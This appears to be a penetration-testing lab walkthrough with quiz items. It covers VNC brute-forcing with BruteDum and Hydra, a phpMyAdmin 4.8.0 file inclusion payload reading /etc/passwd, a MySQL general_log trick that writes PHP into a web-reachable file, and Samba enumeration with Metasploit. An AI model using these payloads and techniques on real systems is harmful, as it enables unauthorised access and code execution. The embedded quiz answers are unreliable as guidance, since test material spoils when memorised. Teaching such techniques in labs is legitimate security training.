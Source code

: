 Brute-forcing is the process of discovering weak login credentials and is typically one of the first actions performed during security assessments of public-facing applications. As there are different tools built to aid in brute-forcing for different protocols, it is often needed to have a framework that eases the procedure of launching customized brute-force attacks.

`BruteDum` is a Python tool that combines service enumeration and brute-forcing tools. It lists the best tool to use for services found, cutting down the time it would take the user to find the right attack technique. It organizes powerful tools for breaking into user accounts on services like SSH, VNC, etc.

To get started, go to the `BruteDum` directory, which has been preinstalled on the system:
`cd Exploiting-Public-Facing-App`

`BruteDum` can not find password lists saved outside the `BruteDum` folder, so the solution is to add the password list directly to its directory. A password list is already located in the same directory.
To run BruteDum, use the following command:
`python3 brutedum.py
# Target Address

The tool first prompts for the victim's IP address. In this example, use our own machine IP as a target by typing localhost

Once you've done so, press Enter, and the program will present the option to run a Nmap scan. It's a convenient feature that can help you discover other services open on the same machine. Type Y and press Enter to run the Nmap scan. `y`

The scan results show that 6 ports are open in the machine labeled 1 through 6. The next step is to select a service to crack. Select option 6 and press Enter for VNC cracking. `6`
### Tool Selection for BruteDum

After scanning VNC, BruteDum lists a few tools for brute forcing. In this case, Hydra is recommended. Hydra is a password-cracking tool that supports several protocols to attack. To use it, type 2 on the terminal and press Enter. `2`
### Set Username and Password List

When asked for the wordlist, use the wordlist located in Downloads/BruteDumps. Hydra will go through the wordlist and attempt to authenticate to VNC.
`Top207-probable-v2.txt

### Launch the Attack

The default VNC port is 5900, but some machines may use a non-standard port. Since our target is running VNC on port 5901, press "n" to proceed. `n

Next, enter 5901 to specify the port: `5901

Once the port is set, `BruteDum` will automatically launch Hydra, a password-cracking tool, to perform a brute-force attack on the VNC credentials.

If the attack succeeds, a valid password will be revealed. Otherwise, it will indicate that no matching credentials were found in this attempt. While this method may not always work, it can be effective in scenarios where the correct password is included in the tested list.

When prompted to continue, press "n" to exit the tool.

If valid credentials are obtained, an attacker can use `Remmina`, a remote desktop tool for screen sharing and file transfers, to connect to the VNC server and gain initial access to the system.

What is the password that was founded by brute forcing?
**123456**
# PHPMyAdmin 4.8.0 Vulnerability

PHPMyAdmin is a set of open-source, web-based MySQL database management tools.

4.8.0 ~ 4.8.1 versions of the tool are vulnerable to file inclusion in `index.php` caused by a validation bypass in the vulnerable path checking function `Core::checkPageValidity`. This vulnerability allows remote adversaries to execute arbitrary PHP code on the machine when authenticated.

Open a browser and visit phpmyadmin.com, which is running a vulnerable PHPMyAdmin version.

http://192.168.1.100/phpmyadmin

After visting the website, a login page appears. PHPMyAdmin is known for weak configurations from its users, so default credentials are often used (admin, admin). Use the default credentials to log in and access the tool's dashboard.

> Disregard any error messages that appear on the webpage.
# PHPMyAdmin File Inclusion

Local File Inclusion (LFI) is used to trick the web application into exposing or running files on the webserver. This can lead to remote code execution, Cross-site Scripting (XSS), and information disclosure.

The running version of PHPMyAdmin on this machine is vulnerable to Local File Inclusion. To test this, after the dashboard is accessed, try entering the following link in the URL path:

http://192.168.1.100/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

This payload exploits the target argument by appending a custom file path. In Linux-based operating systems, the ../ connotation lists the content of the parent directory. Adding a few of these special characters allows the attacker to list the contents of the root directory and then traverse to any file of choosing. In this case, the content of the /etc/passwd file is shown. This file contains a list of all machine users.
# Executing Getshell Commands

Different `getshell` methods exist that can exploit this vulnerability, such as changing the path of the written log, writing a one-sentence Trojan horse, etc.

In this example, MySQL logging capabilities will be exploited to create malicious PHP files. More specifically, the files will be created by manipulating two MySQL global variables:

1. general log - refers to the log saving status. There are two values ​​(ON/OFF), ON meaning open and OFF meaning closed.
2. general log file - refers to the save path of the log.

MySQL 5.0 and above will create log files, modify the log's global variables and, have read and write permissions to the generated log.

First, check the log status running the below statement in the "SQL" tab and pressing "Go":
`SHOW VARIABLES LIKE 'general%' ;

If `general_log=ON` , the executed SQL statement will appear in the `/1e164993aaf5.log` file as stated.

However, if the path of `general_log_file` is changed to for example `/1.php` , the executed SQL statement will be saved to that file.

To change the `general_log` variable and set it to ON, execute the following:
`SET GLOBAL general_log= 'on'

Next, using the following statement, the log file can be changed to 1.php.
`SET GLOBAL general_log_file= '1.php'

Keep in mind that database errors might appear, however the code is being executed. To confirm that the commands were successful, check the log status running the below statement:
`SHOW VARIABLES LIKE 'general%' ;

![n7dvbcqa.jpg](https://labondemand.blob.core.windows.net/content/lab183047/instructions285698/n7dvbcqa.jpg)

If `general_log` is ON, and the log file is now 1.php, the commands ran successfully. Keep in mind that this statement will work if the directory path is set correctly corresponding to the default server path where the log files are saved, otherwise, the file can not be generated and will prompt an error.

Now, run the following statement, which will be logged in the new specified file, leading to generating the 1.php file:

`select '<?php phpinfo();?>'`

After running the statement, from the server-side, 1.php is generated successfully on the PHPMyAdmin server at `/var/lib/mysql/1.php`.
# Samba Vulnerabilities

**Samba** consists of a suite of applications implementing the SMB protocol. Many operating systems, including Windows, use the SMB protocol for client-server networking. Samba also enables Linux machines to communicate with Windows machines in the network.

Many Samba implementations use outdated versions, providing an easy target for adversaries.

The first step to determine if a vulnerable version is being used by enumerating the target for the version number. Use Nmap to scan the samba machine:
`nmap -sC -sV 192.168.1.100

In addition to showing information related to Samba, Nmap also resolves the IP address of the machine.

Based on nmap, which ports are open on Samba Target?
**80, 445, 22**
# Enumerating Samba Version

To get more insights about the Samba version running on the host, use Metasploit's `smb_version` module. Metasploit is a penetration framework that contains tools, libraries, and modules that aid in security assessments.

First, open a terminal and launch msfconsole:

After launching the tool, select the module to run using the following syntax:
`use auxiliary/scanner/smb/smb_version

The smb_version module is an auxiliary module that aids in initial enumeration. Next, set the IP Address of the target using the following command:
`set RHOSTS 192.168.1.100

Lastly, to run the exploit use the following command:
`exploit`

The console will show the scanning results, revealing the version of Samba running on the target host.

This is crucial information, revealing that the host is running an outdated SAMBA Version, which is vulnerable to remote access. Since this is a well-documented vulnerability, scripts that aid in exploitation can be easily found in exploit databases such as ExploitDB.

---

Based on the scanner results, what is the version of Samba?